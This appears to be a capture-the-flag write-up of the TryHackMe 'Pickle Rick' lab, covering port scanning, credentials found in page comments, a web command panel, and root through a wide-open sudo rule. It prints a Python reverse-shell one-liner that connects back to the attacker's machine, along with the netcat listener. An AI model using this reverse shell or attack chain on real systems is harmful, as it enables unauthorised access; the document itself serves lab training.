 # THM - Pickle Rick

#### Ip: 10.10.103.60
#### Name: Pickle Rick
#### Rating: Easy

----------------------------------------------------------------------

pickle.jpeg

```text
This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.
```

### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ sudo nmap -p-  --min-rate 10000 10.10.103.60 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-07 15:07 CDT
Nmap scan report for 10.10.103.60
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.29 seconds
```

Lets also use the `-sC` and `-sV` flags to use Nmap basuc scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ sudo nmap -sC -sV -T4 10.10.103.60 -p 22,80    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-07 15:07 CDT
Nmap scan report for 10.10.103.60
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5235f7e6c7c64166d9efe23b67dc765c (RSA)
|   256 d00a4604437517acce7f615384723ce7 (ECDSA)
|_  256 0eb8ff00831db6bb1d5c800b7be0c9c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.07 seconds
```

Heading to the sight we see a note from Rick to Morty:

site.png

Checking out the source of the page we find a username left as a comment:

note.png

Cool. Lets also manually check for a robots.txt page while we're here:

robots.png

Ok, not exactly positive what this is. trying to go to http://10.10.103.60/Wubbalubbadubdub we get a Not Found page. 

Lets do some directory fuzzing to see if we can find any other pages:

ferox.png

Cool, looks like we've found a login page. Let's check that out:

login.png

Nice! We were able to login with the found username and used Wubbalubbadubdub for the password.

Interesting, looks like there is a panel to execute commands on the server with. Running `whoami` we see we have execution:

panel.png

Trying to go to access any other materials on the site we get redirected to `/denied.php`

denied.png

Funily enough, checking out the source code of the login page we find another comment:

```text
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

This looks like Base64 encoded text.

Trying to decode it in the terminal I realize it's been encoded multiple times, so I keep adding additional decoding until I finally get to the clear text:

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ echo "Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==" | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
base64: invalid input
base64: invalid input
rabbit hole
```
Ha- here we are getting trolled by the box creators. 

Looks like we'll need to move on.

Going back to the command panel running `ls -la` shows me some interesting files:

```text
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

Trying to view any of these files using the `cat` command is blocked:

cmd.png

Ok, so there must be some command filtering happing here. Lets try and bypass this by using the panel to get a reverse shell.

### Exploitation

First I'll set up a Netcat listener on my attacking machine and then head over to

From there i can grab a Python reverse shell oneliner and run it:

```text
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.61.45",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

And a second later I get a call back to my listener:

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.103.60] 48232
$ whoami
whoami
www-data
$ hostname
hostname
ip-10-10-103-60
$ ls -la
ls -la
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

From here I can answer the first question:

```text
What is the first ingredient that Rick needs?
```

first.png

Looks like there was a clue left behind:

```text
www-data@ip-10-10-103-60:/var/www/html$ cat clue.txt 
Look around the file system for the other ingredient.
```

Poking around the box a bit more we find the second ingredient in rick's `/home` directory:

```text
What is the second ingredient in Rick’s potion?
```

second.png

### Privilege Escalation

Lets try and get root access now. I'll try `sudo -l` to list out any commands I can run with root permissions:

```text
www-data@ip-10-10-103-60:/home/rick$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-103-60.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-103-60.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Wow- looks like we can run whatever we want as sudo. Lets just switch our user to the root user:

```text
www-data@ip-10-10-103-60:/home/rick$ sudo su -
root@ip-10-10-103-60:~# whoami
root
root@ip-10-10-103-60:~# id
uid=0(root) gid=0(root) groups=0(root)
```

And from there we can answer the final question:

```text
What is the last and final ingredient?
```

third.png

Thanks for following along!

-Ryan

------------------------------------------------------------------
